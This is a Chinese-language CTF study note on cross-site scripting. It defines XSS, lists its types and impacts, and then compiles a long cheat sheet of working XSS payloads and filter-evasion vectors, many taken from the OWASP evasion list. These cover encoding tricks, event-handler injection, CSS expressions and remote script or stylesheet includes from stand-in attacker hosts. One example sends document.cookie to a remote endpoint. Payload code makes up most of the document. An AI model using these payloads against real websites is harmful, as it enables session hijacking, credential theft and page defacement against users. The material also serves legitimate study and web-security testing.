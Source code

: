 #                                  XSS

* ## XSS定义

跨站脚本（Cross-site scripting，XSS）是对网页代码（包含HTML以及前端脚本）有漏洞的网站进行的攻击，是代码注入的一种。它允许恶意代码被注入到网页上，其他使用者在访问网页时就会受
到影响。攻击成功后，攻击者可能得 到更高的权限、私密网页内容、会话和cookie等各种内容。 

> 提示
>
> > XSS属于客户端攻击，受害者最终是用户。但不要忘记网站管理人员也属于用户之一，管理员拥有着太多权限，一般管理员都可以对网站进行文件管理、数据管理等操作，攻击者就有可能靠管理员身份作为跳板实施攻击。

* ## 原理

  XSS攻击是在网页中嵌入客户端恶意脚本代码，这些恶意代码一般使用JavaScript语言编写JavaScript可以用来获取用户的Cookie、改变网页内容、URL调转，存在XSS漏洞的网站，可以盗取用户Cookie、黑掉页面、导航到恶意网站，攻击者仅仅需要向web页面注入JavaScript代码

* ## XSS常见出现漏洞的地方

  1. 数据交互的地方
     - get、post、cookies、headers
     - 反馈与浏览
     - 富文本编辑器
     - 各类标签插入和自定义
  2. 数据输出的地方
     - 用户资料
     - 关键词、标签、说明
     - 文件上传

* ## 危害

  - 网络钓鱼，包括获取各类用户账号；
  - 窃取用户cookies资料，从而获取用户隐私信息，或利用用户身份进一步对网站执行操作；
  - 劫持用户（浏览器）会话，从而执行任意操作，例如非法转账、强制发表日志、电子邮件等；
  - 强制弹出广告页面、刷流量等；
  - 网页挂马；
  - 进行恶意操作，如任意篡改页面信息、删除文章等；
  - 进行大量的客户端攻击，如ddos等；
  - 获取客户端信息，如用户的浏览历史、真实ip、开放端口等；
  - 控制受害者机器向其他网站发起攻击；
  - 结合其他漏洞，如csrf,实施进一步危害；
  - 提升用户权限，包括进一步渗透网站；
  - 传播跨站脚本蠕虫等

* ## 分类

  1. 反射型（不储存于服务器，非持久）
  2. 储存性（粗存于服务器，持久性）
  3. DOM型（改变DOM结构）（DOM本身代表文档，给予DOM型的XSS不需要与服务器交互，只发生在客户端处理数据阶段）![](https://github.com/lrq12349306/ctf/blob/main/picture/xss_type_DOM.png)

- ## 漏洞利用

 1.盗取cookie： 

```
<script>alert(document.cookie)</script>
```

 2.构造页面跳转： 

```
<script>location='https://www.hacker.com'</script>
```

 3.构造获取cookie并发送到远程主机： 

```javascript
<script>document.location='http://127.0.0.1/test/cookie.phpcookie='+document.cookie</script>
```

- ### 常见注入点

1、输入框

2、留言板

3、URL中可传参数的变量

* ### 触发JS解析器的方式：

  1. 直接嵌入<script>代码块。
2. 通过src属性加载代码。
  3. 行内样式
  4. 各种HTML CSS参数支持JavaScript：URL伪协议触发调用。
  5. 事件处理器，如：onload，onerror，onclick等。
  6. 定时器，timer（setTimeout，setInterval）
  7. eval(...)调用

* ## 过滤与绕过

  ### 1. 闭合引号、标签

  ### 2. 关键字、符号过滤

- 反引号代替圆括号

- 换行、空格、Tab绕过正则

- <!--不仅可以用-->,也可以用--!>闭合

- //可以用换行来绕过

- <!--和-->都可以在html的script标签里单独使用进行单行注释

- ſ 符号转换为大写后正好为大写字母 S

- 可以用 %0a 代替空格进行绕过

- 用 / 代替空格

- 不闭合标签
  -   <  代替  >  闭合标签
  ```javascript
  <iframe src=http://xss.rocks/scriptlet.html <
  ```
  - firefox 自动补全标签
  ```javascript
  <SCRIPT SRC=http://xss.rocks/xss.js?< B >
  ```
  - 被限制长度，浏览器可识别 .j 

    ```javascript
    <SCRIPT SRC=//xss.rocks/.j>
    ```

  -  IE中用以下符号代替>闭合标签

  ```javascript
  /((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/
  ```

- 额外的无关括号

  ```javascript
  <<SCRIPT>alert("XSS");//\<</SCRIPT>
  ```

- 大小写

- Non-alpha-non-digit XSS（⑧懂）

  ```javascript
  <SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
  ```

  ```javascript
  <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
  ```

- ”覆盖变量“

  ```javascript
  \";alert('XSS');//
  ```

  > 效果：
  >
  > ```javascript
  > <SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>
  > ```

- 双写、拼凑

- 当括号被过滤的时候可以使用throw来绕过

  > ```javascript
  > <svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
  > ```

- 如果是html标签中，可以不用引号；如果是在js中，可以用反引号代替单双引号。

- 字符拼接
  
> 利用eval
> ```javascript
> <img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
> ```
>
> 利用top
>
> ```
> <script>top["al"+"ert"](`xss`);</script>
> ```

- 干扰字符（任意位置插入null字符）
> ```javascript
  ><im[%00]g onerror=alert(xss) src=a>
> ```
- html标签中用`//`可以代替`http://`

  ```javascript
  <img src="x" onerror=document.location=`//www.baidu.com`>
  ```

- 使用`\\`

  ```javascript
  但是要注意在windows下\本身就有特殊用途，是一个path 的写法，所以\\在Windows下是file协议，在linux下才会是当前域的协议
  ```

- 使用中文逗号代替英文逗号

  > 如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号 

  ```javascript
  <img src="x" onerror="document.location=`http://www。baidu。com`">//会自动跳转到百度
  ```

- 其它字符混淆

> 有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们> > 就可以使用其它字符去混淆我们注入的代码了
> 下面举几个简单的例子
>
> > 可利用注释、标签的优先级等
```javascript
<<script>alert("xss");//<</script>
<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```
### 3. 编码绕过

* url编码，JavaScript编码  （在src等属性标签下可用，”JavaScript“本身不能编码）
  
  |     进制      |       格式       |
  | :-----------: | :--------------: |
  |  ascll(默认)  |       %00        |
  |    八进制     | \0(三位不足补零) |
  |    十六进     |       \x00       |
  | unicode编码制 |      \u0000      |
  |    base64     |       如下       |
  
  ```javascript
  <img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
  <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
  ```
  
* HTML实体（对大小写敏感，**分号没必要，最大7位填充，0可忽略**）
  
    [html实体码转码](https://www.qqxiuzi.cn/bianma/zifushiti.php "实体码，记得预留字符转命名实体")
  
    ![](https://github.com/lrq12349306/ctf/blob/main/picture/xss_html_decode.png)

  

* 宽字节绕过

* 复合编码

* String.fromCharCode编码

      如alert编码为：
      
      ```javascript
      String.fromCharCode(97,108,101,114,116)
      ```

* JavaScript转义（在src等属性标签下可用，”JavaScript“本身不能编码）

    ```javascript
  <a href=javascript:eval(alert('xss'))>aa</a>
  ```
  
* java alert encode**(编码最多是7位填充，包括)**

  ```javascript
  <img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
  ```


- expression属性

  ```
  <img style="xss:expression(alert('xss''))"> // IE7以下
  <div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
  <style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
  ```

- US-ASCII Encoding

  > US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII  encoding with 7 bits instead of 8. This XSS may bypass many content  filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web  application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits  in US-ASCII encoding.

  ```
  ¼script¾alert(¢XSS¢)¼/script¾
  ```



#### 4. 外部标签

  ---> <svg>属于外部标签，是一种特殊的标签，它使用XML格式定义图像，XML支持在标签内解析HTML实体字符，所以在XML中可以执行。
```javascript
<svg><script>alert(&#40;'1'&#41;</script>)
```

##### 浏览器解码顺序

html解码 ---> JavaScript解码 ---> url解码 ---> 发送http请求

![](https://github.com/lrq12349306/ctf/blob/main/picture/xss_html_DecodeOrder.png)


### 5. 使用IP

  **1.十进制IP**

```javascript
<img src="x" onerror=document.location=`http://2130706433/`>
```

  **2.八进制IP**

```javascript
<img src="x" onerror=document.location=`http://0177.0.0.01/`>
```

  **3.hex**

```javascript
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>
```



#### 6. CSS import

IE 浏览器支持在 CSS 中扩展 JavaScript，这种技术称为动态特性(dynamic properties)。允许攻击者加载一个外部 CSS 样式表是相当危险的，因为攻击者现在可以在原始页面中执行 JavaScript 代码了。
 ```javascript
 <style>
 @import url("http://attacker.org/malicious.css");
 </style>
 ```
 **malicious.css：**
```javascript
 body {
   color: expression(alert('XSS'));
 }
```
**为了绕过对 @import 的过滤，可以在 CSS 中使用反斜杠进行绕过：**

 ```javascript
 <style>
 @imp\ort url("http://attacker.org/malicious.css");
 </style>
 ```
 IE 浏览器会接受反斜杠，但是我们绕过了过滤器。



### 7. JavaScript伪协议

**---><a>标签**

```javascript
<a href="javascript:alert(`xss`);">xss</a>
```

**---><iframe>标签**

```javascript
<iframe src=javascript:alert('xss');></iframe>
```

**---><img>标签**

```javascript
<img src=javascript:alert('xss')>//IE7以下
```

**---><form>标签**


```javascript
<form action="Javascript:alert(1)"><input type=submit>
```



###  **8. 利用link远程包含js文件**

> PS：在无CSP的情况下才可以

  ```
<link rel=import href="http://127.0.0.1/1.js">
  ```

> rename .js

```
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```



### 9. 其它

**--->UTF-7 Encoding**

> If the page that the XSS resides on doesn’t provide a page charset  header, or any browser that is set to UTF-7 encoding can be exploited  with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don’t need the charset statement if the user’s browser  is set to auto-detect and there is no overriding content-types on the  page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding  type which is why it is marked as completely unsupported. Watchfire  found this hole in Google’s custom 404 script.:

```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
```

**--->Cookie Manipulation**

> Admittedly this is pretty obscure but I have seen a few examples where `<META` is allowed and you can use it to overwrite cookies. There are other  examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who  visits the page. With these two scenarios combined you can modify the  victim’s cookie which will be displayed back to them as JavaScript (you  can also use this to log people out or change their user states, get  them to log in as you, etc…):

```
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

**--->PHP**

> Requires PHP to be installed on the server to use this XSS vector.  Again, if you can run any scripts remotely like this, there are probably much more dire issues:

```javascript
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

**--->EMBED a Flash Movie That Contains XSS**

> Click here for a demo: ~~http://ha.ckers.org/xss.swf~~

```
<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
```

> firefox

```
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

**--->Downlevel-Hidden Block**

> Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine mode). Some websites consider anything inside a comment block to be  safe and therefore does not need to be removed, which allows our Cross  Site Scripting vector. Or the system could add comment tags around  something to attempt to render it harmless. As we can see, that probably wouldn’t do the job:

```
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->
```

**--->background属性**

```javascript
<table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效
```

**--->XSS Locator**

```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

```javascript
<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>
```

**--->Malformed IMG Tags**

```javascript
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

**--->Livescript (older versions of Netscape only)**

```javascript
<IMG SRC="livescript:[code]">
```

**--->VBscript in an Image**

```javascript
<IMG SRC='vbscript:msgbox("XSS")'>
```

**--->List-style-image**

> Fairly esoteric issue dealing with embedding images for bulleted  lists. This will only work in the **IE** rendering engine because of the  JavaScript directive. Not a particularly useful cross site scripting  vector:

```javascript
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

**--->ECMAScript 6**

```javascript
Set.constructor`alert\x28document.domain\x29
```

**--->BGSOUND**

```javascript
<BGSOUND SRC="javascript:alert('XSS');">
```

**--->& JavaScript includes**

```javascript
<BR SIZE="&{alert('XSS')}">
```

**--->STYLE sheet**

```javascript
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

### 10. 各种标签

   **---><script>标签：**
```javascript
<script>alert(/1/)</script>
<script>prompt(1)</script> 
<script>confirm(1)</script>
<script src="http://attacker.org/malicious.js"></script>
<script src=data:text/javascript,alert(1)></script>
<script>setTimeout(alert(1),0)</script>
```
   **---><a>标签：**

```javascript
<a href="javascript:alert(1)">点击触发</a>
<a href="http://www.hacker.com">点击触发</a>
```

  **---><img>**

  ```javascript
  <img src=1 onerror=alert("xss");>
  ```

> Default SRC Tag to Get Past Filters that Check SRC Domain
>
> ```javascript
> <IMG SRC=# onmouseover="alert('xxs')">
> ```
>
> Default SRC Tag by Leaving it Empty
>
> ```javascript
> <IMG SRC= onmouseover="alert('xxs')">
> ```
>
> Default SRC Tag by Leaving it out Entirely
>
> ```javascript
> <IMG onmouseover="alert('xxs')">
> ```
>
> IMG Lowsre
>
> ```javascript
> <IMG LOWSRC="javascript:alert('XSS')">
> ```
>
> IMG Dynsrc
>
> ```javascript
> <IMG DYNSRC="javascript:alert('XSS')">
> ```
>
> On Error Alert
>
> ```javascript
> <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
> ```

**---><input>**

  ```
  <input onfocus="alert('xss');">
  竞争焦点，从而触发onblur事件
  <input onblur=alert("xss") autofocus><input autofocus>
  通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<input onfocus="alert('xss');" autofocus>
  ```

**---><details>**


```
  <details ontoggle="alert('xss');">
  使用open属性触发ontoggle事件，无需用户去触发
  <details open ontoggle="alert('xss');">
```

**---><svg>**


  ```
  <svg onload=alert("xss");>
  ```

**---><select>**

  ```
  <select onfocus=alert(1)></select>
  通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
  <select onfocus=alert(1) autofocus>
  ```

**---><iframe>**

  ```
  <iframe onload=alert("xss");></iframe>
  ```

**---><video>**

  ```
  <video><source onerror="alert(1)">
  ```

**---><audio>**

  ```
  <audio src=x  onerror=alert("xss");>
  ```

**---><body>**

  ```
  <body/onload=alert("xss");>
  ```

> 利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发

  ```
  <body
  onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
  ```

**---><textarea>**

  ```
  <textarea onfocus=alert("xss"); autofocus>
  ```

**---><keygen>**

  ```
  <keygen autofocus onfocus=alert(1)> //仅限火狐
  ```

**---><marquee>**

  ```
  <marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以
  ```

**---><isindex>**

  ```
  <isindex type=image src=1 onerror=alert("xss")>//仅限于IE
  ```

**---><style>(限制较多)**

**Remote style sheet**

> Using something as simple as a remote style sheet you can include  your XSS as the style parameter can be redefined using an embedded  expression. This only works in IE and Netscape 8.1+ in IE rendering  engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet  examples they use the body tag, so it won’t work unless there is some  content on the page other than the vector itself, so you’ll need to add a single letter to the page to make it work if it’s an otherwise blank  page:

```
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```

**Remote style sheet part 2**

> This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is  useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real  world:

```
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
```

**Remote style sheet part 3**

> This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1  spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no  different than in the HTTP header saying `Link: <http://xss.rocks/xss.css>; REL=stylesheet`) and the remote style sheet with my cross site scripting vector is running the JavaScript, which is not supported in FireFox:

```
<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">
```

**Remote style sheet part 4**

> This only works in Gecko rendering engines and works by binding an  XUL file to the parent page. I think the irony here is that Netscape  assumes that Gecko is safer and therefor is vulnerable to this for the  vast majority of sites:

```
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```

**STYLE Tags with Broken-up JavaScript for XSS**

> This XSS at times sends IE into an infinite loop of alerts:

```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

**STYLE Attribute using a Comment to Break-up Expression**

> Created by Roman Ivanov

```
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

**IMG STYLE with Expression**

> This is really a hybrid of the above XSS vectors, but it really does  show how hard STYLE tags can be to parse apart, like above this can send IE into a loop:

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

**STYLE Tag (Older versions of Netscape only)**

```
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
```

**STYLE Tag using Background-image**

```
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

**STYLE Tag using Background**

```
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>` `<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

**Anonymous HTML with STYLE Attribute**

IE6.0 and Netscape 8.1+ in IE rendering engine mode don’t really care if the HTML tag you build exists or not, as long as it starts with an  open angle bracket and a letter:

```
<XSS STYLE="xss:expression(alert('XSS'))">
```

**---><META>**

> The odd thing about meta refresh is that it doesn’t send a referrer  in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

**META using Data**

> Directive URL scheme. This is nice because it also doesn’t have  anything visibly that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see RFC 2397 for more  details or go here or here to encode your own. You can also use the XSS [calculator](http://ha.ckers.org/xsscalc.html) below if you just want to encode raw HTML or JavaScript as it has a Base64 encoding method:

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

**META with Additional URL Parameter**

> If the target website attempts to see if the URL contains `<http://>;` at the beginning you can evade it with the following technique (Submitted by Moritz Naumann):

```
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

**---><TD>**

```
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

**---><DIV>**

```
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

**---><BASE>**

```
<BASE HREF="javascript:alert('XSS');//">
```

**---><OBJECT>**

> If they allow objects, you can also inject virus payloads to infect  the users, etc. and same with the APPLET tag). The linked file is  actually an HTML file that can contain your XSS:

```
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```

**---><XML>**

> This XSS attack works only in IE and Netscape 8.1 in IE rendering  engine mode) - vector found by Sec Consult while auditing Yahoo:

```
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML> 
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

> 例：
>
> > ```javascript
> > <script>alert(navigator.userAgent)<script> <script>alert(88199)</script> <script>confirm(88199)</script> <script>prompt(88199)</script> <script>\u0061\u006C\u0065\u0072\u0074(88199)</script> <script>+alert(88199)</script> <script>alert(/88199/)</script> 
> > <script src=data:text/javascript,alert(88199)></script> 
> > <script src=&#100&#97&#116&#97:text/javascript,alert(88199)></script> <script>alert(String.fromCharCode(49,49))</script> <script>alert(/88199/.source)</script> <script>setTimeout(alert(88199),0)</script> 
> > <script>document['write'](88199);</script> 
> > <anytag οnmοuseοver=alert(15)>M 
> > <anytag οnclick=alert(16)>M 
> > <a οnmοuseοver=alert(17)>M 
> > <a οnclick=alert(18)>M 
> > <a href=javascript:alert(19)>M 
> > <button/οnclick=alert(20)>M 
> > <form><button formaction=javascript&colon;alert(21)>M <form/action=javascript:alert(22)><input/type=submit> 
> > <form οnsubmit=alert(23)><button>M 
> > <form οnsubmit=alert(23)><button>M 
> > <img src=x οnerrοr=alert(24)> 29 
> > <body/οnlοad=alert(25)> 
> > <body οnscrοll=alert(26)><br><br><br><br><br><br><br> <br><br><br><br><br><br><br><br><br><br><br> <br><br><br><br><br><br><br><br><br><br><br> <br><br><br><br><br><br><br><br><br><br><br> <input autofocus> <iframe src="http://0x.lv/xss.swf"></iframe> 
> > <iframe/οnlοad=alert(document.domain)></iframe> 
> > <IFRAME SRC="javascript:alert(29);"></IFRAME> 
> > <meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2830%29%3C%2%73%63%72%69%70%74%3E"> 
> > <object data=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+></object> 
> > <object data="javascript:alert(document.domain)"> 
> > <marquee onstart=alert(30)></marquee> 
> > <isindex type=image src=1 οnerrοr=alert(31)> 
> > <isindex action=javascript:alert(32) type=image> 
> > <input οnfοcus=alert(33) autofocus> 
> > <input οnblur=alert(34) autofocus><input autofocus>
> >     
> > //关键字和编码结合
> > <IMG SRC="jav&#x0A;ascript:alert('XSS');"> //换行
> > <IMG SRC="jav&#x0D;ascript:alert('XSS');"> //空格
> > <IMG SRC="jav&#x09;ascript:alert('XSS');"> //Tab
> > ```

### 11. Filter Bypass Alert Obfuscation

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`

###  **常用事件：** 


  onclick: 点击触发
  ```
  （<img src=x onclick=alert(1)>）
  ```

  onerror: 当 src 加载不出来时触发
  ```
  （<img src=x onerror=alert(1)>）
  ```

  onload: 当 src 加载完毕触发
  ```
  （<img src=x onload=alert(1)>）
  ```

  onmouseover：鼠标移动到图片后触发
  ```
  （<img src=x onmouseover=alert(1)>）
  ```

  onmousemove: 鼠标移到指定元素触发
  ```
  （<img src=x onmousemove=alert(1) >）
  ```

  onfocus: 当input 输入框获取焦点时触发
  ```
  （<input onfocus=javascript:alert(1) autofocus>）
  ```



### [事件列表](http://help.dottoro.com/ljfvvdnm.php)

1. `FSCommand()` (attacker can use this when executed from within an embedded Flash object)
2. `onAbort()` (when user aborts the loading of an image)
3. `onActivate()` (when object is set as the active element)
4. `onAfterPrint()` (activates after user prints or previews print job)
5. `onAfterUpdate()` (activates on data object after updating data in the source object)
6. `onBeforeActivate()` (fires before the object is set as the active element)
7. `onBeforeCopy()` (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the `execCommand("Copy")` function)
8. `onBeforeCut()` (attacker executes the attack string right before a selection is cut)
9. `onBeforeDeactivate()` (fires right after the activeElement is changed from the current object)
10. `onBeforeEditFocus()` (Fires before an object contained in an editable element enters a  UI-activated state or when an editable container object is control  selected)
11. `onBeforePaste()` (user needs to be tricked into pasting or be forced into it using the `execCommand("Paste")` function)
12. `onBeforePrint()` (user would need to be tricked into printing or attacker could use the `print()` or `execCommand("Print")` function).
13. `onBeforeUnload()` (user would need to be tricked into closing the browser - attacker cannot unload windows unless it was spawned from the parent)
14. `onBeforeUpdate()` (activates on data object before updating data in the source object)
15. `onBegin()` (the onbegin event fires immediately when the element’s timeline begins)
16. `onBlur()` (in the case where another popup is loaded and window looses focus)
17. `onBounce()` (fires when the behavior property of the marquee object is set to  “alternate” and the contents of the marquee reach one side of the  window)
18. `onCellChange()` (fires when data changes in the data provider)
19. `onChange()` (select, text, or TEXTAREA field loses focus and its value has been modified)
20. `onClick()` (someone clicks on a form)
21. `onContextMenu()` (user would need to right click on attack area)
22. `onControlSelect()` (fires when the user is about to make a control selection of the object)
23. `onCopy()` (user needs to copy something or it can be exploited using the `execCommand("Copy")` command)
24. `onCut()` (user needs to copy something or it can be exploited using the `execCommand("Cut")` command)
25. `onDataAvailable()` (user would need to change data in an element, or attacker could perform the same function)
26. `onDataSetChanged()` (fires when the data set exposed by a data source object changes)
27. `onDataSetComplete()` (fires to indicate that all data is available from the data source object)
28. `onDblClick()` (user double-clicks a form element or a link)
29. `onDeactivate()` (fires when the activeElement is changed from the current object to another object in the parent document)
30. `onDrag()` (requires that the user drags an object)
31. `onDragEnd()` (requires that the user drags an object)
32. `onDragLeave()` (requires that the user drags an object off a valid location)
33. `onDragEnter()` (requires that the user drags an object into a valid location)
34. `onDragOver()` (requires that the user drags an object into a valid location)
35. `onDragDrop()` (user drops an object (e.g. file) onto the browser window)
36. `onDragStart()` (occurs when user starts drag operation)
37. `onDrop()` (user drops an object (e.g. file) onto the browser window)
38. `onEnd()` (the onEnd event fires when the timeline ends.
39. `onError()` (loading of a document or image causes an error)
40. `onErrorUpdate()` (fires on a databound object when an error occurs while updating the associated data in the data source object)
41. `onFilterChange()` (fires when a visual filter completes state change)
42. `onFinish()` (attacker can create the exploit when marquee is finished looping)
43. `onFocus()` (attacker executes the attack string when the window gets focus)
44. `onFocusIn()` (attacker executes the attack string when window gets focus)
45. `onFocusOut()` (attacker executes the attack string when window looses focus)
46. `onHashChange()` (fires when the fragment identifier part of the document’s current address changed)
47. `onHelp()` (attacker executes the attack string when users hits F1 while the window is in focus)
48. `onInput()` (the text content of an element is changed through the user interface)
49. `onKeyDown()` (user depresses a key)
50. `onKeyPress()` (user presses or holds down a key)
51. `onKeyUp()` (user releases a key)
52. `onLayoutComplete()` (user would have to print or print preview)
53. `onLoad()` (attacker executes the attack string after the window loads)
54. `onLoseCapture()` (can be exploited by the `releaseCapture()` method)
55. `onMediaComplete()` (When a streaming media file is used, this event could fire before the file starts playing)
56. `onMediaError()` (User opens a page in the browser that contains a media file, and the event fires when there is a problem)
57. `onMessage()` (fire when the document received a message)
58. `onMouseDown()` (the attacker would need to get the user to click on an image)
59. `onMouseEnter()` (cursor moves over an object or area)
60. `onMouseLeave()` (the attacker would need to get the user to mouse over an image or table and then off again)
61. `onMouseMove()` (the attacker would need to get the user to mouse over an image or table)
62. `onMouseOut()` (the attacker would need to get the user to mouse over an image or table and then off again)
63. `onMouseOver()` (cursor moves over an object or area)
64. `onMouseUp()` (the attacker would need to get the user to click on an image)
65. `onMouseWheel()` (the attacker would need to get the user to use their mouse wheel)
66. `onMove()` (user or attacker would move the page)
67. `onMoveEnd()` (user or attacker would move the page)
68. `onMoveStart()` (user or attacker would move the page)
69. `onOffline()` (occurs if the browser is working in online mode and it starts to work offline)
70. `onOnline()` (occurs if the browser is working in offline mode and it starts to work online)
71. `onOutOfSync()` (interrupt the element’s ability to play its media as defined by the timeline)
72. `onPaste()` (user would need to paste or attacker could use the `execCommand("Paste")` function)
73. `onPause()` (the onpause event fires on every element that is active when the timeline pauses, including the body element)
74. `onPopState()` (fires when user navigated the session history)
